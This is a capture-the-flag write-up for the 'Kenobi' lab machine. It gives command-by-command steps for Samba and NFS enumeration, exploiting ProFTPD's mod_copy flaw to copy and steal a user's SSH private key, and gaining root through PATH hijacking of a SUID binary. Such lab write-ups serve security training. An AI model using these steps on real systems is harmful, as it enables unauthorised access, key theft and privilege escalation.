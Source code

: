 Kenobi
======

Kenobi is an interesting CTF, based on how the challenge is situated towards having a better idea of abusing lack of absolute path names and understanding technologies like FTP and Samba.

## Enumeration

We start off with an nmap scan with a command that looks like this:

```vim
nmap -Pn -v -sV -sC <TARGET_IP>
```

![Image](images/1.png)

FTP and Samba are frequently misconfigured and can be an attack vector. SSH being enabled allows us a way to connect to the server with ease and an rpcbind port means that we can call upon a service in the network (in this case nfs).

Lets start with Samba first, use the following command to list the shares in the server:

```vim
smbclient -L <TARGET_IP>
```

![Image](images/2.png)

## Exploit

We can see that we have IPC$ and anonymous which brings the idea of anonymous login. You can log in anonymously using the following command:

```vim
smbclient //<TARGET_IP>/anonymous
```

Once you're in the server, you can list the contents with `ls` and notice there is a log.txt in the share. You can download the file with `get log.txt` and read it with `cat log.txt`.

Here you see the following information which is very interesting:

>Your identification has been saved in /home/kenobi/.ssh/id_rsa.
>Your public key has been saved in /home/kenobi/.ssh/id_rsa.pub.
>
>  `#` We want clients to be able to login with "anonymous" as well as "ftp"
>  UserAlias			anonymous ftp

This tells us that FTP has anonymous login and where SSH private key is located. We also know that the NFS version is ProFTPD 1.3.5 which specifically has a mod_copy vulnerability. On looking this up, we see this https://www.cvedetails.com/cve/CVE-2015-3306/ where this line is present:

>The mod_copy module in ProFTPD 1.3.5 allows remote attackers to read and write to arbitrary files via the site cpfr and site cpto commands.

We can look up what CPFR and CPTO does in this website: http://www.proftpd.org/docs/contrib/mod_copy.html

>SITE CPFR command specifies the source file/directory to use for copying from one place to another directly on the server.
>
>The syntax for SITE CPFR is:  
>
>  SITE CPFR source-path
>
>SITE CPTO command specifies the destination file/directory to use for copying from one place to another directly on the server.
>
>The syntax for SITE CPTO is:
>
>  SITE CPTO destination-path 

Now, we have to look into where we can actually place our copied file to. We can use the NFS here to mount a directory and try to get the id_rsa but we still need to figure out where the NFS is set up. So we use nmap to see if we can find the filepath:

```vim
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <TARGET_IP>
```

We see that the NFS mount is the `/var` directory. So we have found our destination.

So, we can connect to the computer's FTP interface using this command:

```vim
nc <TARGET_IP> 21
```

So once you're connected, you can try something like this:

```vim
SITE CPFR /home/kenobi/.ssh/id_rsa

SITE CPTO /var/tmp/id_rsa
```

![Image](images/3.png)

We can now try mounting a directory to the file system and recieve the private key with this set of commands:

```vim
sudo mkdir /mnt/<MOUNT_NAME>

sudo mount <TARGET_IP>:/var /mnt/<MOUNT_NAME>

ls -la /mnt/<MOUNT_NAME>

cp /mnt/<MOUNT_NAME>/tmp/id_rsa ~/ 

chmod 600 id_rsa
```

Now we can try connecting to the target using SSH with this command:

```vim
ssh -i id_rsa <TARGET_IP> -l kenobi
```

The first flag should be in `/home/kenobi/user.txt`

## Priv-Esc

To escalate your privilege we need to find something that will let us execute commands as root or let us figure out how to log in as root. We can't do `sudo -l` as we don't know kenobi's password. So our next best shot is SUID permission. We can find SUID files with this command:

```vim
find / -perm -4000 -user root -exec ls -ld {} \; 2>/dev/null
```

We see an executable called `/usr/bin/menu` which seems interesting. On running it, it gives you 3 options, specifically: `status check`(Seeing if the website is on), `kernel version`, `ifconfig`. We can try to see what the binary has to tell with the `strings /usr/bin/menu` and we get this information:

>curl -I localhost
>uname -r
>ifconfig

This shows us that the executable does not use absolute paths, which means we can make an executable called `curl` which runs `/bin/bash` and the command will run it as such (We need to add the file to $PATH first, but thats not an issue) 

You can achieve this with this set of commands:

```vim
echo /bin/bash > curl

chmod 777 curl

PATH=/home/kenobi:$PATH

menu
```

Here, we just enter `1` and you will get a root shell. The last flag can be found in `/root/root.txt`
